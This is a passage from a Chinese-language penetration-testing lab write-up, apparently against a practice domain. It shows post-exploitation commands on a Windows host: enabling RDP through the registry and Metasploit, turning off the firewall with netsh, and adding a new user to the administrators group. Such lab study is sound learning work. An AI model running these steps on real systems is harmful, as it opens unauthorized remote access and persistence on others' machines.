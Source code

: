 ### 3389端口远程登录

然后就是看3389端口了

```shell
# 这里可以msf直接看端口，不过之前nmap扫的时候看到3389是没开的
netstat -ano |findstr 3389		# msf
nmap 192.168.244.134 -p1-65534	# nmap
```

![可以看到3389端口没有打开](https://i.loli.net/2021/04/18/N286UrgTs4GOBld.png)

```shell
# 打开3389端口，得在shell里操作，msf识别不了这个命令
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
# 再看一下端口是否打开成功
netstat -ano |findstr 3389
```

![](https://i.loli.net/2021/04/18/aNblPefDBTqS9VO.png)

不过因为防火墙的原因，还是没能连上，需要把防火墙关一下再进行远程连接

```shell
# 在cmd关闭防火墙
netsh advfirewall set allprofiles state off
```


```shell
# msf 开启远程桌面
run post/windows/manage/enable_rdp
# kali terminal 远程连接
rdesktop 192.168.244.134
```

![](https://i.loli.net/2021/04/18/XgyxeFG98hHskKw.png)
这里的账号填写的是`域名\域用户名，`如`God\Administrator`,下面几个都可以
![这几个都可以](https://i.loli.net/2021/04/18/DhwS9J5APNuQ7b2.png)



或者是新建用户再提权为管理员权限（也就是拉到admin组里啦)

```shell
# cmd
net user username password /add
net localgroup administrators username /add
```

然后就可以直接连接目标主机了



## 内网搜集
